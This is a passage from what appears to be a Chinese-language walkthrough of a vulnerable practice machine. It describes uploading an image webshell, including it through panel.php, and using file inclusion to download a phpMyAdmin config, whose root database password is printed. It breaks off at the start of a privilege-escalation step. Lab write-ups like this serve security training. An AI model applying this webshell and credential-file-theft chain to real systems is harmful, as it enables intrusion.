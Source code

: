 那我们上传一个图片马上去，然后使用panel.php包含这个文件，成功获取到

![](http://ww1.sinaimg.cn/large/0078beR7ly1g0pxx2h437j30vp0fidhb.jpg)



刚刚在网上找这类靶机的文章，发现一位大佬爆破出phpmy目录，然后通过猜解路径去下载，这个文件默认路径在/var/www/phpmy下面，那么我们还可以通过文件包含下载这个文件，然后获取到root账号和密码

```
<?php

/* Servers configuration */
$i = 0;

/* Server: localhost [1] */
$i++;
$cfg['Servers'][$i]['verbose'] = 'localhost';
$cfg['Servers'][$i]['host'] = 'localhost';
$cfg['Servers'][$i]['port'] = '';
$cfg['Servers'][$i]['socket'] = '';
$cfg['Servers'][$i]['connect_type'] = 'tcp';
$cfg['Servers'][$i]['extension'] = 'mysqli';
$cfg['Servers'][$i]['auth_type'] = 'cookie';
$cfg['Servers'][$i]['user'] = 'root';
$cfg['Servers'][$i]['password'] = 'roottoor';  //root密码
$cfg['Servers'][$i]['AllowNoPassword'] = true;

/* End of servers configuration */

$cfg['DefaultLang'] = 'en-utf-8';
$cfg['ServerDefault'] = 1;
$cfg['UploadDir'] = '';
$cfg['SaveDir'] = '';


/* rajk - for blobstreaming */
$cfg['Servers'][$i]['bs_garbage_threshold'] = 50;
$cfg['Servers'][$i]['bs_repository_threshold'] = '32M';
$cfg['Servers'][$i]['bs_temp_blob_timeout'] = 600;
$cfg['Servers'][$i]['bs_temp_log_threshold'] = '32M';


?>
```

### Ubuntu本地提权：

那么使用xshell去远程连接目标服务器，

```
root@indishell:~# uname -a
Linux indishell 3.13.0-32-generic #57~precise1-Ubuntu SMP Tue Jul 15 03:50:54 UTC 2014 i686 i686 i386 GNU/Linux

root@indishell:~# cat /etc/issue
Ubuntu 12.04.5 LTS \n \l
```
